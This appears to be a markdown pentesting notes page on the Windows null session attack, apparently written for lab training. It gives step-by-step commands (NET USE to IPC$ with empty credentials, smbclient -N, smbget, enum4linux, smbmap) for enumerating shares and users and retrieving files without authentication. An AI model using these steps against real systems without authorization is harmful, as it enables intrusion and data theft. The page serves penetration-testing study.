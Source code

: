 ```yaml
---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tag: #pentesting #windows 
---
```


# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A <target IP>   

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW <target IP>
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\<target IP address>\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).

## Manually from Linux

Using the samba suite: https://www.samba.org/

1.  **Enumerate File Server services**: 

```bash
nmblookup -A <target IP>
```

2.  Also with the smbclient we can **enumerate the shares** provides by a host:  

```bash
smbclient -L //<target IP> -N

# -L  Look at what services are available on a target
# <targetIP> Prepend the two slahes
# -N  Force the tool not to ask for a password
```

3.  Connect:

```bash
smbclient \\<tt IP>\sharedfolder -N
```

Be careful, sometimes the shell removes the slashes and you need to escape them.

4.  Once connected you can browse with the smb command line. To see allowed commands: help 
5.  When you know the path of a file and you want to retrieve it:
	- from kali: 
	```bash
	smbget smb://<target IP>/SharedFolder/flag_1.txt
	```
	- from  smb command line: 
	```smb
	get flag_1.txt
	```

6.  To map users with permissions

```bash
smbmap -H demo.ine.local
```
 
To get an specific file in a connection: get flag.txt

## Tricks

Enumerate users with enum4linux -U demo.ine.local

Enumerate the permissions of users with smbmap -H demo.ine.local

If some users are missing in the permission list, maybe they are accesible, try with:

```
smbclient -L //<target IP>\<user> -N
```

## More tools

- [Winfo](winfo.md).
- [enum](enum.md).
- [enum4linux](enum4linux.md).
- [SAMRDump](samrdump.md).
